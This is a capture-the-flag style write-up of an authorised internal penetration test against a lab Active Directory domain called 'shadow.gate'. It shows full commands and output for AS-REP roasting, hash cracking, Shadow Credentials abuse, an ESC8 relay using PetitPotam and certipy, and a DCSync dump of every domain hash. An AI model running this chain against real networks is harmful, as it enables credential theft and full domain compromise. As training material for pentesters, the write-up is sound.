


# ShadowGate


## Objective

**ShadowGate** recently completed a corporate acquisition that significantly expanded its internal network, user base, and application footprint. Several business-critical systems were migrated and consolidated under tight operational deadlines to minimize downtime and maintain service continuity.

While functional validation was completed, the organization deferred a comprehensive security assessment due to delivery pressure and staffing constraints. Leadership has since requested an independent penetration test to validate the security posture of the newly created environment and identify any material risk before the next audit cycle.

The assessment will evaluate whether a motivated attacker with standard network access could compromise sensitive systems, escalate privileges, or move laterally within the enterprise environment.

The Hack Smarter team has been authorized to perform a black box internal penetration test against the ShadowGate environment.

## Initial Access

The client has provided you with VPN access to their internal network, but no credentials.

## Enumeration

Document all enumeration don on the host to find vulnerable and attack paths

```jsx
nmap -Pn -sV -sC -p- --min-rate=200 10.1.212.63 -T4
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-24 15:31 EDT
Nmap scan report for 10.1.212.63
Host is up (0.018s latency).
Not shown: 65511 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-06-24 19:41:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Not valid before: 2026-01-15T01:10:24
|_Not valid after:  2027-01-15T01:10:24
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Not valid before: 2026-01-15T01:10:24
|_Not valid after:  2027-01-15T01:10:24
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: shadow.gate0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Not valid before: 2026-01-15T01:10:24
|_Not valid after:  2027-01-15T01:10:24
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: shadow.gate0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.shadow.gate
| Not valid before: 2026-01-15T01:10:24
|_Not valid after:  2027-01-15T01:10:24
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.shadow.gate
| Not valid before: 2026-06-23T19:29:09
|_Not valid after:  2026-12-23T19:29:09
| rdp-ntlm-info:
|   Target_Name: SHADOW
|   NetBIOS_Domain_Name: SHADOW
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: shadow.gate
|   DNS_Computer_Name: DC01.shadow.gate
|   DNS_Tree_Name: shadow.gate
|   Product_Version: 10.0.20348
|_  System_Time: 2026-06-24T19:41:52+00:00
|_ssl-date: 2026-06-24T19:42:32+00:00; -1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
58416/tcp open  msrpc         Microsoft Windows RPC
58449/tcp open  msrpc         Microsoft Windows RPC
58453/tcp open  msrpc         Microsoft Windows RPC
58472/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2026-06-24T19:41:54
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 651.98 seconds
```

Found a number of `open ports`. 

Since I don’t have credentials, I will try to get as much information as possible without the use of user credentials like `username` and/or `password`

### User Enumeration

```jsx
nxc smb 10.1.212.63 -u '' -p '' --users
SMB         10.1.212.63     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.1.212.63     445    DC01             [+] shadow.gate\:
SMB         10.1.212.63     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                  
SMB         10.1.212.63     445    DC01             Administrator                 2026-01-11 11:33:05 0       Built-in account for administering the computer/domain
SMB         10.1.212.63     445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain
SMB         10.1.212.63     445    DC01             krbtgt                        2026-01-12 02:45:27 0       Key Distribution Center ServiceAccount
SMB         10.1.212.63     445    DC01             ATHENA                        2026-03-04 15:23:19 0
SMB         10.1.212.63     445    DC01             mbrownlee                     2026-03-04 15:24:05 0
SMB         10.1.212.63     445    DC01             bbrown                        2026-01-15 14:24:07 0
SMB         10.1.212.63     445    DC01             jtrueblood                    2026-04-28 18:14:47 0
SMB         10.1.212.63     445    DC01             jsmith                        2026-03-04 15:26:29 0
SMB         10.1.212.63     445    DC01             clocke                        2026-03-04 15:24:32 0
SMB         10.1.212.63     445    DC01             tclarke                       2026-03-04 15:25:33 0
SMB         10.1.212.63     445    DC01             jbradford                     2026-03-04 15:24:59 0
SMB         10.1.212.63     445    DC01             amoss                         2026-03-04 15:25:52 0
SMB         10.1.212.63     445    DC01             [*] Enumerated 12 local users: SHADOW
```

You can the the above `usernames` using `nxc` and adding the `--users-export` <<name of file>> command.

```jsx
nxc smb 10.1.212.63 -u '' -p '' --users-export users.txt
```

### Asreproast

With the obtained `users.txt` file, I can now do `asreproasting` to get the `tgt` of any user that does not require pre-authentication

**AS-REP Roasting** is a cryptographic attack against Active Directory (AD) that allows an attacker to steal and crack user passwords offline.

It targets accounts that have a specific, weak security setting configured: **"Do not require Kerberos preauthentication."**

Here is a quick breakdown of how it works:

#### The Vulnerability

By default, when a user logs into an Active Directory domain using the Kerberos protocol, **Preauthentication** is required. This means the user's computer must first encrypt a timestamp using their password hash before asking the Domain Controller (DC) for a login ticket. This proves they actually know the password *before* the DC hands over any sensitive data.

When an account has "Do not require Kerberos preauthentication" turned on, the DC skips this verification step.

#### The Attack Steps

- **The Request:** The attacker sends a dummy authentication request (an `AS-REQ`) to the Domain Controller for a specific username. Because preauthentication is disabled, the attacker doesn't need to provide a password or an encrypted timestamp.
- **The Response:** The DC happily accepts the request and sends back an authentication response (an `AS-REP`). Crucially, a portion of this response contains data **encrypted with the target user's password hash**.
- **The Crack:** The attacker captures this response, takes it completely offline, and throws a brute-force or dictionary attacking tool (like Hashcat or John the Ripper) at it to crack the password. Because it happens offline, Active Directory has no idea the attack is happening, meaning it won't trigger account lockouts

I was able to get the encrypted password for `jtrueblood` because his user account does not require `pre-authentication`.

```jsx
nxc ldap 10.1.212.63 -u users.txt -p '' --asreproast output.txt
LDAP        10.1.212.63     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:shadow.gate) (signing:None) (channel binding:Never)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.1.212.63     389    DC01             $krb5asrep$23$jtrueblood@SHADOW.GATE:994cfab452bee61e58f867ac9dea7873$24e0f7353dbaf15f60a536f9d99dba6a0ee1c99de93dd0ebfaebf9b42fbc76ec2e41184fc6b25158d5becacbc7b6f20f2fdd03f2635f1b40c785c04d0db5b01479bdc9589fabe26183670e06c9e114bbe0dd21a4f0b28f81768d436019fa620096d7db92b495714c3b5e114b965adb8ada43186f1b405e07b30527ce79f651285a744d0d0dce47db7e2496f1531851ce5d7438c4f2f0f1601087dbc0794c96ca4823d70325a27be6717a7758d4100daccc2d3ba5158fdfe29e6f18353ca4bb321fb8e5554f3c192559c1e7e4a83bbce7d9954a60c9745f7779d9973fad1e52ff3c92c6dc02c5e0374aab
```

### Cracking hash with Hashcat

```jsx
hashcat -m18200 output.txt /usr/share/wordlists/rockyou.txt.gz

$krb5asrep$23$jtrueblood@SHADOW.GATE:994cfab452bee61e58f867ac9dea7873$24e0f7353dbaf15f60a536f9d99dba6a0ee1c99de93dd0ebfaebf9b42fbc76ec2e41184fc6b25158d5becacbc7b6f20f2fdd03f2635f1b40c785c04d0db5b01479bdc9589fabe26183670e06c9e114bbe0dd21a4f0b28f81768d436019fa620096d7db92b495714c3b5e114b965adb8ada43186f1b405e07b30527ce79f651285a744d0d0dce47db7e2496f1531851ce5d7438c4f2f0f1601087dbc0794c96ca4823d70325a27be6717a7758d4100daccc2d3ba5158fdfe29e6f18353ca4bb321fb8e5554f3c192559c1e7e4a83bbce7d9954a60c9745f7779d9973fad1e52ff3c92c6dc02c5e0374aab:blood_brothers

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$jtrueblood@SHADOW.GATE:994cfab452bee6...374aab
Time.Started.....: Wed Jun 24 19:19:37 2026 (19 secs)
Time.Estimated...: Wed Jun 24 19:19:56 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
```

## Foothold

Research findings, data insights, and key considerations and document how you got a foothold on the vulnerable box

```jsx
nxc smb 10.1.212.63 -u jtrueblood -p blood_brothers
SMB         10.1.212.63     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.1.212.63     445    DC01             [+] shadow.gate\jtrueblood:blood_brothers
┌─[parrot@parrot]─[~/HSM/ShadowGate]
└──╼ $nxc smb 10.1.212.63 -u jtrueblood -p blood_brothers --shares
SMB         10.1.212.63     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:shadow.gate) (signing:False) (SMBv1:None)
SMB         10.1.212.63     445    DC01             [+] shadow.gate\jtrueblood:blood_brothers
SMB         10.1.212.63     445    DC01             [*] Enumerated shares
SMB         10.1.212.63     445    DC01             Share           Permissions     Remark
SMB         10.1.212.63     445    DC01             -----           -----------     ------
SMB         10.1.212.63     445    DC01             ADMIN$                          Remote Admin
SMB         10.1.212.63     445    DC01             C$                              Default share
SMB         10.1.212.63     445    DC01             CertEnroll      READ            Active Directory Certificate Services share
SMB         10.1.212.63     445    DC01             IPC$            READ            Remote IPC
SMB         10.1.212.63     445    DC01             NETLOGON        READ            Logon server share
SMB         10.1.212.63     445    DC01             SYSVOL          READ            Logon server share
```

```jsx
impacket-smbclient shadow.gate/jtrueblood:blood_brothers@10.1.212.63
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# shares
ADMIN$
C$
CertEnroll
IPC$
NETLOGON
SYSVOL
# use CertEnroll
# ls
drw-rw-rw-          0  Wed Jun 24 15:29:42 2026 .
drw-rw-rw-          0  Sun Jan 11 22:00:58 2026 ..
-rw-rw-rw-        877  Sun Jan 11 22:00:31 2026 DC01.shadow.gate_shadow-DC01-CA.crt
-rw-rw-rw-        323  Sun Jan 11 22:00:58 2026 nsrev_shadow-DC01-CA.asp
-rw-rw-rw-        725  Wed Jun 24 15:29:42 2026 shadow-DC01-CA+.crl
-rw-rw-rw-        914  Wed Jun 24 15:29:42 2026 shadow-DC01-CA.crl
# get shadow-DC01-CA.crl
# get shadow-DC01-CA+.crl
# get nsrev_shadow-DC01-CA.asp
# get DC01.shadow.gate_shadow-DC01-CA.crt
```

## BloodHound

### GenericWrite

Looking in `Bloodhound`, `jtrueblood` has `GenericWrite` over the `bbrown` user



In Active Directory (AD) pentesting, **`GenericWrite`** is a high-severity security misconfiguration. It is an Access Control Entry (ACE) that essentially means: *"Account A has the right to modify almost any property/attribute of Account B."*  

If an attacker compromises an account that has `GenericWrite` permissions over a target user account, they can manipulate that target user to achieve lateral movement or privilege escalation.

Here is how attackers typically abuse `GenericWrite` over a user account, ranked from modern to traditional methods:

### 1. Shadow Credentials (The Modern/Stealthy Approach)

This is the most common way to abuse `GenericWrite` today because it allows an attacker to take over the target user **without changing their password** or alerting them.

- **The Abuse:** The attacker uses `GenericWrite` to modify a specific, hidden attribute on the target user called `msDS-KeyCredentialLink`.
- **The Exploit:** The attacker injects their own cryptographic public key into this attribute. They can then use a tool (like `pyWhisker` or `Whisker`) to request a Kerberos Ticket Granting Ticket (TGT) as that target user using PKINIT (certificate-based authentication).
- **The Result:** Total impersonation of the target user without ever touching or knowing their actual password.

### 2. Target Kerberoasting (SPN Abuse)

If Shadow Credentials aren't an option (e.g., the environment doesn't support certificate authentication), an attacker can use `GenericWrite` to turn a normal user into a Kerberoasting target.

- **The Abuse:** The attacker updates the target user's `servicePrincipalName` (SPN) attribute, assigning it a dummy value (like `http/fakename`).
- **The Exploit:** By adding an SPN, the account is now recognized by AD as a service account. The attacker can then immediately request a Kerberos service ticket (TGS) for that account.
- **The Result:** The attacker extracts the ticket and cracks the user's password offline using Hashcat (exactly like traditional Kerberoasting).

### 3. Logon Script Hijacking (The Classic Approach)

If the attacker wants to execute code the next time the target user logs in, they can target desktop environment attributes.

- **The Abuse:** The attacker modifies the `scriptPath` or `profilePath` attribute of the target user.
- **The Exploit:** They change the value to point to a malicious script hosted on an attacker-controlled file share (e.g., `\\attacker-ip\share\malicious.ps1`).
- **The Result:** The next time the victim logs into a workstation, their machine automatically grabs and runs the attacker's script in the user's context.

```jsx
pywhisker -d "shadow.gate" -u "jtrueblood" -p "blood_brothers" --target "bbrown" --action "add"
[*] Searching for the target account
[*] Target user found: CN=Bob Brown,OU=Technology,OU=Departments,DC=shadow,DC=gate
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: eeaf82dc-dd1d-488d-decd-31f66395c306
[*] Updating the msDS-KeyCredentialLink attribute of bbrown
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: eK7o719J.pfx
[*] Must be used with password: Amk58bMHOFMJFK1V0L51
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

```jsx
python3 gettgtpkinit.py shadow.gate/bbrown -cert-pfx ../eK7o719J.pfx -pfx-pass Amk58bMHOFMJFK1V0L51 bbrown.ccache
2026-06-24 21:04:59,395 minikerberos INFO     Loading certificate and key from file
2026-06-24 21:04:59,421 minikerberos INFO     Requesting TGT
2026-06-24 21:04:59,547 minikerberos INFO     AS-REP encryption key (you might need this later):
2026-06-24 21:04:59,547 minikerberos INFO     f7302a0d0ae5430a38e9ed37f64b0fd45ecc57aa9c6c0228a38a7ad5c2c66ff9
2026-06-24 21:04:59,551 minikerberos INFO     Saved TGT to file

# set the KRB5CCNAME environment variable
export KRB5CCNAME=bbrown.ccache

# Get NT Hash
python3 getnthash.py shadow.gate/bbrown -key f7302a0d0ae5430a38e9ed37f64b0fd45ecc57aa9c6c0228a38a7ad5c2c66ff9
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
259745cb123a52aa2e693aaacca2db52
```



## Privilege Escalation

Document how you were able to more laterally and gain a higher privilege

### Vulnerable Web Enrollment

```jsx
certipy find -u bbrown@shadow.gate -p '12345678' -dc-ip 10.1.212.63 -vulnerable
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'shadow-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'shadow-DC01-CA'
[*] Checking web enrollment for CA 'shadow-DC01-CA' @ 'DC01.shadow.gate'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20260624212904_Certipy.txt'
[*] Wrote text output to '20260624212904_Certipy.txt'
[*] Saving JSON output to '20260624212904_Certipy.json'
[*] Wrote JSON output to '20260624212904_Certipy.json'
```

```jsx
cat 20260624212904_Certipy.json
{
"Certificate Authorities": {
"0": {
"CA Name": "shadow-DC01-CA",
"DNS Name": "DC01.shadow.gate",
"Certificate Subject": "CN=shadow-DC01-CA, DC=shadow, DC=gate",
"Certificate Serial Number": "749A4BA2BEA3CFBC41ECDFAEE502E46C",
"Certificate Validity Start": "2026-01-12 02:50:31+00:00",
"Certificate Validity End": "2046-01-12 03:00:31+00:00",
"Web Enrollment": {
"http": {
"enabled": true
},
"https": {
"enabled": false,
"channel_binding": null
}
},
"User Specified SAN": "Disabled",
"Request Disposition": "Issue",
"Enforce Encryption for Requests": "Enabled",
"Active Policy": "CertificateAuthority_MicrosoftDefault.Policy",
"Permissions": {
"Owner": "SHADOW.GATE\\Administrators",
"Access Rights": {
"1": [
"SHADOW.GATE\\Administrators",
"SHADOW.GATE\\Domain Admins",
"SHADOW.GATE\\Enterprise Admins"
],
"2": [
"SHADOW.GATE\\Administrators",
"SHADOW.GATE\\Domain Admins",
"SHADOW.GATE\\Enterprise Admins"
],
"512": [
"SHADOW.GATE\\Authenticated Users"
]
}
},
"[!] Vulnerabilities": {
"ESC8": "Web Enrollment is enabled over HTTP."
}
}
},
"Certificate Templates": "[!] Could not find any certificate templates"
```

<aside>
💡

 It is vulnerable to ESC8

</aside>

### ESC8: Web Enrollment Vulnerabilities

**ESC8** is a critical, high-impact vulnerability within **Active Directory Certificate Services (AD CS)**. Unlike other AD CS flaws (like ESC1) that exploit bad configurations in specific *certificate templates*, ESC8 targets a weak configuration on the **Certificate Authority (CA) server itself**.  

At its core, ESC8 is an **NTLM Relay attack** that allows an attacker to compromise the entire domain in minutes by stealing a certificate for a high-privileged account (usually a Domain Controller).

### How the ESC8 Attack Works

The attack relies on the fact that AD CS often has optional **HTTP/HTTPS Web Enrollment endpoints** enabled (e.g., the classic `/certsrv` web portal). By default, these web interfaces accept NTLM authentication, but they do not enforce HTTPS or Extended Protection for Authentication (EPA / Channel Binding).

Because of this gap, an attacker can chain a few steps together:

```jsx
[ Domain Controller ] --(Forced NTLM Auth)--> [ Attacker Host ] --(Relays NTLM)--> [ AD CS Web Endpoint ]
                                                                                           |
<--(Hands over DC's Kerberos TGT)-- [ Domain Controller ] <--(Issues Certificate)-- [ Certificate Authority ]
```

1. **Coercion:** The attacker uses a tool (like *PetitPotam* or *PrinterBug*) to trigger an automated connection from a high-value target—most often a **Domain Controller (DC) machine account**—forcing it to attempt authentication against the attacker's machine.  
2. **The Relay:** Instead of trying to crack the DC's massive computer account password, the attacker uses a tool like `ntlmrelayx` to grab that incoming NTLM authentication traffic and immediately forward (relay) it to the vulnerable AD CS Web Enrollment HTTP endpoint.
3. **The Certificate Request:** The web endpoint accepts the relayed authentication as proof that the request is coming genuinely from the Domain Controller. The attacker uses this access to request a client authentication certificate on behalf of that DC.  
4. **Domain Takeover:** The CA server issues a valid `.pfx` certificate for the Domain Controller. The attacker downloads it, uses it to request a Kerberos Ticket Granting Ticket (TGT) as the DC, and performs a **DCSync attack** to dump the password hashes of every single user in the Active Directory domain.

Once either tool confirms the Web Enrollment endpoint exists without EPA (Extended Protection for Authentication), a tester will set up `ntlmrelayx` on their local machine targeting that URL, and then use a coercion tool like `PetitPotam` to force a Domain Controller to talk to them, executing the attack chain.

### Stage One: NTLM Coercion with PetitPotam

```jsx
python PetitPotam.py -u jtrueblood -p blood_brothers 10.200.66.252 10.1.212.63
/home/parrot/Tools/PetitPotam/PetitPotam.py:23: SyntaxWarning: invalid escape sequence '\ '
| _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __

___            _        _      _        ___            _
| _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __
|  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \
_|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_|
_| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""|
"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'

PoC to elicit machine account authentication via some MS-EFSRPC functions
by topotam (@topotam77)

Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN

Trying pipe lsarpc
[-] Connecting to ncacn_np:10.1.212.63[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

### Stage Two: Set up SMB Relay to the Domain Controller

```jsx
sudo /home/parrot/.local/bin/certipy relay -target http://dc01.shadow.gate/certsrv/certfnsh.asp -template DomainController
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting http://dc01.shadow.gate/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
[*] Setting up SMB Server on port 445
[*] (SMB): Received connection from 10.1.212.63, attacking target http://dc01.shadow.gate
[*] HTTP Request: GET http://dc01.shadow.gate/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://dc01.shadow.gate/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://dc01.shadow.gate/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] (SMB): Authenticating connection from /@10.1.212.63 against http://dc01.shadow.gate SUCCEED [1]
[*] Requesting certificate for '\\' based on the template 'DomainController'
[*] (SMB): Received connection from 10.1.212.63, attacking target http://dc01.shadow.gate
[*] HTTP Request: GET http://dc01.shadow.gate/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] HTTP Request: GET http://dc01.shadow.gate/certsrv/certfnsh.asp "HTTP/1.1 401 Unauthorized"
[*] http:///@dc01.shadow.gate [1] -> HTTP Request: POST http://dc01.shadow.gate/certsrv/certfnsh.asp "HTTP/1.1 200 OK"
[*] Certificate issued with request ID 3
[*] Retrieving certificate for request ID: 3
[*] http:///@dc01.shadow.gate [1] -> HTTP Request: GET http://dc01.shadow.gate/certsrv/certnew.cer?ReqID=3 "HTTP/1.1 200 OK"
[*] Got certificate with DNS Host Name 'DC01.shadow.gate'
[*] Certificate object SID is 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
[*] Exiting...
```

### Stage Three: Authenticate as dc01

```jsx
certipy auth -pfx dc01.pfx -dc-ip 10.1.212.63
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'DC01.shadow.gate'
[*]     Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'
[*] Using principal: 'dc01$@shadow.gate'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@shadow.gate': aad3b435b51404eeaad3b435b51404ee:a65dda95d2fe26e6877221551d0f7e3b
```

### Stage four: Dump Domain Credentials

```jsx
secretsdump.py -k -no-pass -dc-ip 10.1.212.63 dc01.shadow.gate
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4366ec0f86e29be2a4a5e87a1ba922ec:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5509cbfe52e94940c0ec99b21e09802:::
shadow.gate\ATHENA:1103:aad3b435b51404eeaad3b435b51404ee:3215f4c7c852647c88694ab0b57daaba:::
shadow.gate\mbrownlee:1104:aad3b435b51404eeaad3b435b51404ee:6f16868319543175e7f3e6d4eea9adfb:::
shadow.gate\bbrown:1109:aad3b435b51404eeaad3b435b51404ee:259745cb123a52aa2e693aaacca2db52:::
shadow.gate\jtrueblood:1110:aad3b435b51404eeaad3b435b51404ee:27e133a345b980d24e3a60f169f2cb7e:::
shadow.gate\jsmith:1112:aad3b435b51404eeaad3b435b51404ee:be0b6d125a6645747d91d30ed3bef98f:::
shadow.gate\clocke:1113:aad3b435b51404eeaad3b435b51404ee:ff506444e2c59b0241812e8e17b0f05e:::
shadow.gate\tclarke:1114:aad3b435b51404eeaad3b435b51404ee:9290a555713c7db0cf7fbf0ac28c1100:::
shadow.gate\jbradford:1115:aad3b435b51404eeaad3b435b51404ee:f5c86043de2a116c6458f3de9aad89de:::
shadow.gate\amoss:1116:aad3b435b51404eeaad3b435b51404ee:381480af4a988ad46758c2f79ee64090:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:a65dda95d2fe26e6877221551d0f7e3b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:6bf0048464b8fdf7a2db10f4799715a0c6471ac724424007e95bf55cd6841445
Administrator:aes128-cts-hmac-sha1-96:01b16cb25c0593a4da06b92dcd454c2f
Administrator:des-cbc-md5:d6da94c1b5761f45
krbtgt:aes256-cts-hmac-sha1-96:9d2c8f2fecd0d6813cde513680b594210cf9c91bc2d4f6715ce25972b6a7c7c5
